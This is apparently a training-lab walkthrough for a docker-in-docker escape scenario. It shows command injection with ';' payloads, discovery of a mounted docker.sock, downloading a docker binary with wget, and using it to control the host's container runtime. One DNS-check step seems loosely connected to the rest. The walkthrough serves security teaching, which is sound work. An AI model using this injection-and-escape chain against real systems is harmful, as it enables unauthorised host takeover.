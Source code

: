# ⎈ DIND (docker-in-docker) exploitation

## 🙌 Overview

In this scenario, we will be focusing on the common and standard ways how to build systems and pipelines that leverage container sockets to create, build and run containers from the underlying container runtime. This has been exploited since the early days of the container ecosystem and even today we see these misconfigurations/use cases in the real world. 

![Scenario 2](images/scenario-2.png)

By the end of the scenario, we will understand and learn the following

1. You will learn to test and exploit the container UNIX socket misconfigurations
2. Able to exploit container and escape out of the docker container
3. Learn common misconfigurations in pipelines and CI/CD build systems

### ⚡️ The story

Most of the CI/CD and pipeline systems use the underlying host Docker runtime to build containers for you within the pipeline by using something called DIND (docker-in-docker) with a UNIX socket. Here in this scenario, we try to exploit this misconfiguration and gain access to the host system by escaping out of the docker container.

:::info

* To get started with the scenario, navigate to [http://127.0.0.1:1231](http://127.0.0.1:1231)

:::

![Scenario 2 welcome](images/sc-2-1.png)

### 🎯 Goal

The goal of this scenario is to escape out of the running docker container to the host system where the container is running and able to access and perform actions on the host system.

:::tip

If you can able to obtain container images in the host system then you have completed this scenario. But definitely, you can advance beyond this exploitation as well by performing post-exploitation.

:::

### 🪄 Hints & Spoilers

<details>
  <summary><b>✨ Do you know how to run multiple commands in Linux? </b></summary>
  <div>
    <div>The application running here has command injection vulnerability. You can exploit this by using the <b>;</b> delimiter when passing the input 🙌</div>
  </div>
</details>

<details>
  <summary><b>✨ Able to run system commands, not sure how to access containers? </b></summary>
  <div>
    <div>Identify the mounted UNIX socket volume, and use docker binary to communicate with that with <b>-H</b> flag 🎉</div>
  </div>
</details>

## 🎉 Solution & Walkthrough

### 🎲 Method 1

* Start by checking that DNS resolution is working for your cluster. If this doesn't work, check to see if you have a DNS service like CoreDNS running on your cluster.

```bash
www.google.com
```

:::tip
* if you get your local domain appended, try using

```bash
www.google.com.
```

* If you have to do this, you should always add a . after a url, even in wget commands. The extra dot is required is that kubernetes has a default option of ndots:5 in /etc/resolv.conf, which is verifiable in this scenario. This means that unless a minimum of 5 dots are present, the domain is not assumed to be a FQDN.
:::


* By looking at the application functionality and dabbling with the input and output, we can see it has standard command injection vulnerability. Assuming it's running in a Linux container we can use the `;` delimiter to run/pass other commands

```bash
127.0.0.1; id
```

![Scenario 2 Command Injection](images/sc-2-2.png)

* As we can see it returns the response for the `id` command, now we can analyze the system and see what potential information we can obtain

* It contains `docker.sock` mounted into the file system as it's not available commonly in standard systems

```bash
; mount
```

![Scenario 2 mount](images/sc-2-3.png)

* Wow! we can see the `/custom/docker/docker.sock` mounted in the file system and assuming it's mounted from the host system we need to talk to it for communicating with the UNIX socket

:::tip

We can use multiple methods for communicating with the `docker.sock` UNIX socket. Some of them include [official docker binary](https://download.docker.com/linux/static/stable/), or a simple `curl` program as well.  

:::

* Next we can download the official `docker` static binary from the internet [https://download.docker.com/linux/static/stable/](https://download.docker.com/linux/static/stable/). In order to determine which binary we need, we can run the following command for system discovery

```bash
;uname -a
```

* We can examine the output to determine our system architecture and OS, then download the appropriate docker binary to the container. For example, if our target system is a x86\_64 Linux box, we can use the following command

```bash
;wget https://download.docker.com/linux/static/stable/x86_64/docker-19.03.9.tgz -O /tmp/docker-19.03.9.tgz
```

* We can extract the binary from the `docker-19.03.9.tgz` file so that we can use that to talk to the UNIX socket

```bash
;tar -xvzf /tmp/docker-19.03.9.tgz -C /tmp/
```

![Scenario 2 extract binary](images/sc-2-4.png)

* Now we can access the host system by running the following docker commands with passing `docker.sock` UNIX socket

```bash
;/tmp/docker/docker -H unix:///custom/docker/docker.sock images
```

![Scenario 2 list host images](images/sc-2-6.png)

* Hooray 🥳 , now we can see that it has a lot of container images in the host system. We can now use different docker commands to gain more access and further exploitation

## 🔖 References

* [Protect the Docker daemon socket](https://docs.docker.com/engine/security/protect-access/)
